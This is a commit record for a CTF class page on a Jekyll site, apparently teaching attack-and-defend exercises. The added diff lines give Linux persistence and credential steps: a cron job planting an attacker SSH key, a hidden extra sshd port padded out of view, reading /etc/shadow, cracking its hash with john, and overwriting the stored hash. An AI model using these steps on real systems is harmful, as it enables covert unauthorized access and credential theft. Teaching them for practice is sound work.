

Before and after one commit to jboyce1/ppsCTF, a Jekyll site: the page built from classes/cyberus/cyberus.md, in a window 1280 px wide and 1400 px high, scrolled down 8277 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update cyberus.md

```diff
--- a/classes/cyberus/cyberus.md
+++ b/classes/cyberus/cyberus.md
@@ -133,8 +133,21 @@
 <div style="text-align: center;">
   <img src="{{ 'classes/cyberus/images/heard.png' | relative_url }}" alt="" style="max-width: 80%; height: auto;">
 </div>
+
+Schedule a cron job to place your rsa public key in the targets authorized_keys file
 <div class="terminal">* * * * * echo "ssh-rsa AAAA...attackerkey" &gt;&gt; /home/ubuntu/.ssh/authorized_keys</div>
+see Poralord for rsa key gen
 
+
+Add port to the sshd_config file
+<div class="terminal">sudo nano /etc/ssh/sshd_config</div>
+add a Port line with a new
+<div class="terminal">Port 2222</div>
+(push this new line off the page with spaces so nano doesnt pick it up)
+
+save out ctrl+x, y, enter
+restart the services
+<div class="terminal">sudo systemctl restart ssh</div>
 ---
 
 # Process Hunting & Removal
@@ -255,6 +268,28 @@
 ## Change passwords
 
 <div class="terminal"> sudo passwd &lt;username&gt; </div>
+
+Dont know the password?
+
+Crack credentials on the device
+<div class="terminal"> sudo cat /etc/shadow</div>
+find the hash
+<div class="terminal">ubuntu:$6$GeGHxfXw2Gpfum0n$/LAJZD7r5lPgL5dENGMP4BgH.fAQn/Dz4FAgV/o8h/GLp6WIUNkIQ8iLtlmLrNzvZclhCR2EAATDhIwDN2QeO0
+</div>
+copy and paste it into a file
+<div class="terminal"> nano crackme.txt</div>
+<div class="terminal"> john crackme.txt</div>
+
+OR
+
+inject a new one
+<div class="terminal"> openssl passwd -6 muh-bran-new-password</div>
+<div class="terminal"> sudo nano /etc/shadow</div>
+replace the portion after ubuntu: and before the :19832:0:99999:7::: (password expiration data) with the new hash
+<div class="terminal"> $6$Xy9NP9YQsaJyUVoF$K85YHQOwtj0nh2anmKqzkoJHViNFmCKI6gPxDGuUKYwczwSZOxnaHT97/Kefy.vlcFlQ.3IUvtgb06DAYu78o/
+</div>
+
+
 
 ---
 
```
